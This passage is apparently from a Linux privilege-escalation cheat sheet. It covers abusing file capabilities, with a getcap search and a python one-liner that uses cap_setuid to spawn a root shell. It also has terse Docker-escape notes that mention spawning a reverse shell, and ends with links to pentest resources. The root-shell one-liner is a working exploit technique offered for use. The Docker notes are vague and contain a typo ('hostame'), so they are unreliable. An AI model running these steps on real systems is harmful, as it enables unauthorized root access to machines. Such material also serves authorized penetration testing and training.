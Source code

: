 ```bash
getcap -r / 2>/dev/null
```

From the output, notice the value of the `cap_setuid` capability.
#### Example : 

/usr/bin/python2.6 = cap_setuid+ep

```bash
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

## Docker escape
To check if you're in a docker, type `hostame`.  
If the response is weird stuff, you are probably in.  

- One method is to check for backup files that are run as original root  
It will require to have privileges to write on vulnerable files  
Spawn a regular bash reverse shell


## Take a look at those links

- https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
- https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html
- https://payatu.com/guide-linux-privilege-escalation


